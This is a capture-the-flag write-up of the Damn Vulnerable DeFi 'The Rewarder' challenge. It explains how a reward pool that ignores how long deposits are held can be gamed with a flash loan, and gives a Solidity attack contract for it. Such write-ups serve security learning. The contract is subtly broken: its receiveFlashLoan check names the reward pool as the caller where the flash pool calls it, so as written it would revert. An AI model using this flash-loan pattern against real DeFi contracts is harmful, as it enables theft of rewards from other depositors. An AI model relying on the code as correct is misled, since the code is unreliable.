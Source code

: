 ```yaml
---
description: https://www.damnvulnerabledefi.xyz/challenges/the-rewarder/
---
```


# 5. The Rewarder

### **Objective**

* There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
* Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!
* You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.
* By the way, rumours say a new pool has just launched. Isn’t it offering flash loans of DVT tokens?

### Approach

Let us examine the **deposit()** on Rewards Pool contract.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

* mints accounting tokens in a 1:1 ratio against the DVT tokens deposited
* calls distributeRewards()

**distributeRewards()**

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

* checks if its time for a new round of rewards distribution: **isNewRewardsRound()**
  * rewards are distributed in 5 day intervals from the `lastRecordedSnapshotTimestamp`
* if it is indeed time for a new rewards round, **\_recordSnapshot()** is executed
  * increments `lastSnapshotIdForRewards`
  * updates the timestamp on `lastRecordedSnapshotTimestamp`
  * increments `roundNumber`
* checks current totalDeposits and amountDeposited by the uer
  * if both are non-zero positive values, calculate rewards earned by user
  * rewards awarded are based on the percentage of contribution
  * if rewards > 0, mint reward tokens to the user, and record the timestamp into the mapping `lastRewardTimestamps`

**Attack vector**

* take a flash loan from the flashpool,
* deposit into rewards pool during an eligible rewards round
* return flash loan

{% hint style="info" %}
The weakness is that the rewarderPool does not check for how long a deposit has been held within it, to allocate rewards. It simply calculates rewards as a function of size, disregarding time.
{% endhint %}

### Solution

create a new contract for the attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {TheRewarderPool} from "../../../src/Contracts/the-rewarder/TheRewarderPool.sol";
import {DamnValuableToken} from "../DamnValuableToken.sol";
import {FlashLoanerPool} from "../../../src/Contracts/the-rewarder/FlashLoanerPool.sol";
import {RewardToken} from "./RewardToken.sol";

contract Attack {
    
    TheRewarderPool public rewarderPool;
    DamnValuableToken public dvt;
    FlashLoanerPool public flashPool;
    RewardToken public rewardToken;
    address public owner;

    constructor(TheRewarderPool rewarderPool_, DamnValuableToken dvt_, FlashLoanerPool flashPool_,RewardToken rewardToken_){
        rewarderPool = rewarderPool_;
        dvt = dvt_;
        flashPool = flashPool_;
        rewardToken = rewardToken_;
        owner = msg.sender;
    }

    ///@notice take the largest possible flashloan
    function attack() external {
        require(owner == msg.sender, "only owner");

        uint256 dvtAvailable = dvt.balanceOf(address(flashPool));
        flashPool.flashLoan(dvtAvailable);
    }


    ///@notice done on new round of rewards
    function receiveFlashLoan(uint256 amount) external {
        require(address(rewarderPool) == msg.sender, "only flashPool");

        dvt.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount);

        // return borrowed tokens to flashPool
        rewarderPool.withdraw(amount);
        bool success = dvt.transfer(address(flashPool), amount);
        require(success, "fLoan not returned");

        // transfer reward tokens to attacker wallet
        uint256 rewards = rewardToken.balanceOf(address(this));
        bool sent = rewardToken.transfer(owner, rewards);
        require(sent, "rewards not sent");
    }
}
```

### Test Exploit()

<figure><img src="../../.gitbook/assets/image (354).png" alt=""><figcaption></figcaption></figure>
